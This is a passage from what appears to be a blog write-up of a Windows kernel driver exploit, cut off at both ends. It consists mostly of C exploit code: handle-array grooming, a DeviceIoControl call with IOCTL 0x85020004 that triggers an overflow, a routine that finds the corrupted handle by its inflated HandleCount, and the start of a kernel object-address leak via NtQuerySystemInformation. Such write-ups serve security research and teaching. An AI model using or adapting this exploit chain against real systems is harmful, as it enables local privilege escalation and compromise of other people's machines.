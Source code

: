 #endif
        {
            if (CloseHandle(ObjectArrayB[i + j]) == TRUE)
            {
                ObjectArrayB[i + j] = NULL;
            }
            else
            {
                DWORD err;

                err = GetLastError();
                printf("CloseHandle for " __FUNCTION__ " failed: %d\n", err);
                r = FALSE;
                goto Exit;
            }
        }
    }

Exit:
    return r;
}
{% endhighlight %}
Trigger the overflow by issueing the IoCTL:

DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, NULL);

Go over the array looking for the handle:
{% highlight C %}
HANDLE LookupMarkedHandle()
{
    HANDLE r;
    UINT32 i;
    OBJECT_BASIC_INFORMATION ObjInfo;

    r = NULL;

    for (i = 0; i < ARR_2_LEN; i++)
    {
        if ((ObjectArrayB[i]) != NULL &&
            (QueryObject(ObjectArrayB[i], &ObjInfo) == TRUE))
        {
            if (ObjInfo.HandleCount >= 0x2000)
            {
                r = ObjectArrayB[i];
                break;
            }
        }
    }

    return r;
}
{% endhighlight %}
Get the address of the object:
{% highlight C %}
PVOID GetObjectByHandle(HANDLE hObject)
{
    BOOL     r;
    NTSTATUS status;
    DWORD    Pid;
    DWORD    ReturnedLength;
    PVOID    pObject;
    SYSTEM_HANDLE_INFORMATION_EX  HandleInfo;
    PSYSTEM_HANDLE_INFORMATION_EX pHandleInfo;

    r = FALSE;
    pObject = NULL;

    NtQuerySystemInformation_t pNtQuerySysInfo;